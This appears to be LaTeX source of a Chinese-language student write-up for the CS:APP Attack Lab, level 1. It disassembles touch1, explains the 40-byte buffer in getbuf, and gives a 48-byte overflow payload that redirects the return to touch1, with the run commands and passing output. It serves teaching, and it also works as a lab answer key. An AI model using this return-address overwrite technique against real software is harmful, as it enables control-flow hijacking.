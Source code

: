 \documentclass[12pt, a4paper, oneside]{ctexart}
\begin{document}
\begin{itemize}
\begin{lstlisting}
00000000004017c0 <touch1>:
4017c0:	48 83 ec 08          	sub    $0x8,%rsp
4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
4017cb:	00 00 00 
4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>  
\end{lstlisting}
    \item getbuf 函数给栈分配了40个字节的空间，然后调用 gets 函数读取输入。
    读完后执行 retq 指令时，从栈中弹出返回地址，然后跳转到这个地址。
    正常来说会跳转到 test 函数中继续执行 printf 操作。但是如果 gets 函数读到的输入
    恰好将应该要从栈中弹出的返回地址覆盖掉，变成 touch1 函数的地址，那么就会跳转到 touch1 函数。
    \item 因此前四十个字节可以任取，最后八个字节需要时 touch1 函数的地址。
    \item 答案不妨为（存入ctarget\_l1.txt）：\\
    00 00 00 00 00 00 00 00 00 00\\
    00 00 00 00 00 00 00 00 00 00\\
    00 00 00 00 00 00 00 00 00 00\\
    00 00 00 00 00 00 00 00 00 00\\
    c0 17 40 00 00 00 00 00
    \item 执行命令 
\begin{lstlisting}
./hex2raw < ctarget_l1.txt > ctarget.l1
./ctarget -qi ctarget.l1    
\end{lstlisting}
    \item 成功跳转
\begin{lstlisting}
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
\end{lstlisting}
    \item 这道题的示意图如下（CSAPP P196 仅仅数值不同）：
\begin{figure}[htbp]
    \centering
    \includegraphics[scale=0.6]{image/2.1-1.png}

\end{figure}
\end{itemize}
\end{document}
